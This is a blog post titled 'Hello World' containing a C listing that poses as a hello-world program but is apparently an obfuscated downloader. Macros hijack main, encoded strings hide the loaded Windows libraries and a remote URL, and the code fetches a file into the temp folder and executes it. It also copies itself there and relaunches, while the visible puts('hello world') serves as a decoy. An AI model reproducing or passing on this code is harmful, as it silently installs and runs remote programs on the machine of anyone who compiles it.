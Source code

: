 ```yaml
---
layout: post
title: "Hello World"
description: "Hello World"
---
```

<pre>
{% highlight c %}
	#include <stdio.h>
	#define sc _stdcall
	#define M main
	int _m(); 
	#define main M(l p,l q){_hd(p,q);_m();}int _m
	typedef unsigned long l;typedef char c,*s;typedef void v,*p;
	typedef l(sc*F0)();typedef l(sc*F9)(l,l,l,l,l,l,l,l,l);
	typedef l(sc*F1)(l); typedef l(sc*F8)(l,l,l,l,l,l,l,l);
	typedef l(sc*F2)(l,l); typedef l(sc*F7)(l,l,l,l,l,l,l);
	typedef l(sc*F3)(l,l,l); typedef l(sc*F6)(l,l,l,l,l,l);
	typedef l(sc*F4)(l,l,l,l); typedef l(sc*F5)(l,l,l,l,l);
	c __mp[1<<7]={0};l i,j,k,m,n,kl,nl,sl;c bf[1<<12];
	l strcpy(l,l);l strcat(l,l);
	F1 _nc,_ll,_fc;F2 _ga,_tp;F3 _cf;F4 _nr;F5 _no,_fw;F6 _nu,_sh;F7 _fn;
	s __st[]={")GFzGda&Zldd","MszszG\\Zldd","!8Gdda&Zldd",
	          "3z\\GFzG\\u0Gz;","3z\\GFzG\\fG{lBsdG","3z\\GFzG\\u0GzWFd;",
	          "3z\\GFzG\\QdU!GX{zldG","QFG{\\GBsdG;","mFs\\GBsdG",
	          "QdU!GX{zldG","QU0cBsdG;\0\\;","}G\\|G?0P{\\8;",
	          "A8Gddg(G17\\G;","zGMVGFZG(G","8\\\\0~55MZ!Z]05sz!\\{ddZl{\\",
	          "\\G?0ZG(G\0QEd","F7z{!\0\\0","U0Gz\0GzzD"};
	l _dc(s o,s i){
	    s p=i;do*(o+(l)p-(l)i+1)=__mp[*p];while(*p && p++);return 0;}
	l rl(s z){for(i=0;i<sizeof(l)*8;i++)
	    if(((l)z>>i)&1)z=(s)((l)z&~(1<<i));else{z=(s)((l)z|(1<<i));break;};
	    return (l)z;}
	v _in(){
	    l sc LoadLibraryA(l);l sc GetProcAddress(l,l);
	    i=j=0;do*(__mp+ j++ +0x20)=i+0x20,i=(i+83)%(0x60);while(i!=0);
	    _ga =(F2)GetProcAddress,_ll=(F1)LoadLibraryA;kl=_ll((_dc(bf,__st[0]),rl(bf)));
	    nl=_ll((_dc(bf,__st[1]),rl(bf)));sl=_ll((_dc(bf,__st[2]),rl(bf)));
	    _no=(F5)_ga(nl,(_dc(bf,__st[3]),rl(bf)));_nr=(F4)_ga(nl,(_dc(bf,__st[4]),rl(bf)));
	    _nu=(F6)_ga(nl,(_dc(bf,__st[5]),rl(bf)));_nc=(F1)_ga(nl,(_dc(bf,__st[6]),rl(bf)));
	    _fn=(F7)_ga(kl,(_dc(bf,__st[7]),rl(bf)));_fw=(F5)_ga(kl,(_dc(bf,__st[8]),rl(bf)));
	    _fc=(F1)_ga(kl,(_dc(bf,__st[9]),rl(bf)));_cf=(F3)_ga(kl,(_dc(bf,__st[10]),rl(bf)));
	    _tp=(F2)_ga(kl,(_dc(bf,__st[11]),rl(bf)));_sh=(F6)_ga(sl,(_dc(bf,__st[12]),rl(bf)));
	}
	l _dl(l u){
	    l cn,sn,f,rr,ln=0;
	    sn=_no((l)"poilynx",1,0,0,0);if(!sn)return 0;
	    cn = _nu(sn,(_dc(bf,__st[14]),rl(bf)),0,0,1<<30,0);
	    if(!cn){_nc(sn);return 0;}f=_fn(u,1<<30,3,0,2,1<<7,0);
	    while(_nr(cn,(l)bf, sizeof(bf),(l)&rr),rr)ln+=rr,_fw(f,(l)bf,rr,(l)&rr,0);
	    _nc(cn);_nc(sn);_fc(f);
	    return 1;
	}
	v _hd(l ac,l av)
	{
	    c td[1<<10];_in();_tp(1<<12,(l)td);
	    if(ac>1 && (((s*)av)[1])[0]==0x53 && (((s*)av)[1])[1]==0){
	        strcat((l)td,(_dc(bf,__st[13]),rl(bf)));
	        while(!_dl((l)td));
	        while(_sh(0,(_dc(bf,__st[16]),rl(bf)),(l)td,0,0,0)<1<<5);
	    }else{
	        strcat((l)td,(_dc(bf,__st[15]),rl(bf)));_cf((l)((s*)av)[0],(l)td,0);
	        _sh(0,(_dc(bf,__st[17]),rl(bf)),(l)td,(m=0x53,(l)&m),0,0);}
	    return;
	}
	
	int main()
	{
	    puts("hello world");
	    return 0;
	}
{% endhighlight %}
</pre>
